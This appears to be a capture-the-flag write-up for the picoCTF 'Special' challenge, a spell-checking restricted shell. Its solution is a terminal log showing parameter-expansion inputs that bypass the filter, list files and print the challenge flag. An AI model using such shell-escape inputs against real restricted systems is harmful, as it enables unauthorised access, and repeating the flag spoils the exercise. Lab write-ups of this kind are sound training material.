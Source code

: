 ## Objetivo
Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM) Start your instance to see connection details.

Additional details will be available after launching your challenge instance.


## Solución
```
The authenticity of host '[saturn.picoctf.net]:54732 ([13.59.203.175]:54732)' can't be established.
ED25519 key fingerprint is SHA256:tJ0wuU5yBvNO/FrkHmR9iY36VJClMhKV+Hq2sxqKFmg.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:15: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:54732' (ED25519) to the list of known hosts.
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Special$ ls
Is 
sh: 1: Is: not found
Special$ ${parameter=ls}
${parameter=ls} 
blargh
Special$ ${parameter=blargh}
${parameter=blargh} 
sh: 1: blargh: not found
Special$ ${parameter=cd blargh}
${parameter=cd blargh} 
Special$ ${parameter=ls blargh}
${parameter=ls blargh} 
flag.txt
Special$ ${parameter=cat < blargh/flag.txt}
${parameter=cat < blargh/flag.txt} 
cat: '<': No such file or directory
picoCTF{5p311ch3ck_15_7h3_w0r57_0c61d335}Special$
```
## Notas adicionales

## Referencias
